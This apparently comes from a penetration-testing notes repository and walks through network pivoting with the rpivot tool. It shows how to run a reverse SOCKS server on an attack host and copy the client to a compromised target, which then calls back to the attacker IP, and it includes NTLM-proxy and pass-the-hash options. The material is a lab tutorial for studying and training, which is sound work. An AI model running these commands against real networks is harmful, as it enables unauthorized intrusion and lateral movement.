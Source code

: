 
![Screenshot_4](https://github.com/kiro6/penetration-testing-notes/assets/57776872/e316aa5a-2008-4b58-9809-0169954655af)


### Cloning rpivot
```shell
$ sudo git clone https://github.com/klsecservices/rpivot.git
```

### Running server.py from the Attack Host
```shell
$ python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```

### Transfering rpivot to the Target
```shell
$ scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/
```
### Running client.py from Pivot Target
```shell
ubuntu@WEB01:~/rpivot$ python2.7 client.py --server-ip 10.10.14.18 --server-port 9999
```

### Browsing to the Target Webserver using Proxychains
```
proxychains firefox-esr 172.16.5.135:80
```

### To pivot through an NTLM proxy
```shell
python2.7 client.py --server-ip <rpivot_server_ip> --server-port 9999 --ntlm-proxy-ip <proxy_ip> --ntlm-proxy-port 8080 --domain CONTOSO.COM --username Alice --password P@ssw0rd
```

### Pass-the-hash is supported
```shell
python2.7 client.py --server-ip <rpivot_server_ip> --server-port 9999 --ntlm-proxy-ip <proxy_ip> --ntlm-proxy-port 8080 --domain CONTOSO.COM --username Alice --hashes 9b9850751be2515c8231e5189015bbe6:49ef7638d69a01f26d96ed673bf50c45
```
